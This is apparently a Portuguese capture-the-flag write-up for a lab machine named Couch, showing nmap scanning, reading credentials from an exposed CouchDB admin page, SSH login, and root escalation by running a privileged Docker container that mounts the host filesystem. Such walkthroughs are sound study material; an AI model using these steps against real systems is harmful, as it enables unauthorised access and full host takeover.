 # _**Couch CTF**_
![](couch.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p [port_range] -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Após a enumeração, temos já algumas respostas  
Com um pouco de pesquisa, temos que:
* _path to all databases_: _all_dbs
* _path to admin_: _utils

Investigando [ip_address]:5984/_utils, temos credenciais  
Vamos usar para tentar login via SSH  

![](login_ssh.jpg)

Invesigando maneiras de escalar privilégios, encontramos o seguinte no arquivo **.bash_history**  

![](docker.jpg)

Vamos executar o comando abaixo para entrar no _docker_
> ```bash
> docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
> ```
Somos _root!_  
Para podermos encontar o arquivo _.txt_, vamos executar o comando abaixo
> ```bash
> find / -type f -name root.txt
> ```
![](root_flag.jpg)

Basta ir atrás das flags agora!
